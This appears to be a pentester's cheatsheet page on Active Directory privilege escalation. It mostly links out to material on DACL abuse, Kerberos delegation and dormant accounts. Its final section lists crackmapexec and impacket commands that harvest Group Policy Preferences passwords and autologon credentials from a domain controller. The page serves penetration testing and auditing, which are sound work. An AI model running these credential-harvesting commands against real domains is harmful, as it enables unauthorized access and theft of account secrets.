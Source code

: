 ```yaml
---
layout: post
title: privesc / ad
category: privesc
parent: cheatsheets
modified_date: 2023-07-04
permalink: /privesc/ad
---
```


**Mitre Att&ck Entreprise**: [TA0007 - Discovery](https://attack.mitre.org/tactics/TA0007/)

**Menu**
<!-- vscode-markdown-toc -->
* [dacl](#dacl)
* [kerberos](#kerberos)
	* [delegation](#delegation)
* [vuln_user_accounts_dormant](#vuln_user_accounts_dormant)
* [shoot-gpo](#shoot-gpo)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='dacl'></a>dacl

credit: [thehacker.repices](https://thehacker.repices/ad/movement/dacl)
![ad privesc DACLs](/assets/images/pen-privesc-dacl.png)

## <a name='kerberos'></a>kerberos

### <a name='delegation'></a>delegations

<iframe width="560" height="315" src="https://www.youtube.com/embed/7_iv_eaAFyQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

 [recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations) / [slides](https://drive.google.com/file/d/1S8Ee29xUHluaT3shvtuHZqGfwZGfSCaV/view)


## <a name='vuln_user_accounts_dormant'></a>vuln_user_accounts_dormant

* Queries:
```powershell

pwdLastSet
```
* [Description](https://www.cert.ssi.gouv.fr/uploads/ad_checklist.html#vuln_user_accounts_dormant)


## <a name='shoot-gpo'></a>shoot-gpo
```bash
# cme
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
crackmapexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin
# impacket
Get-GPPPassword.py $zz
```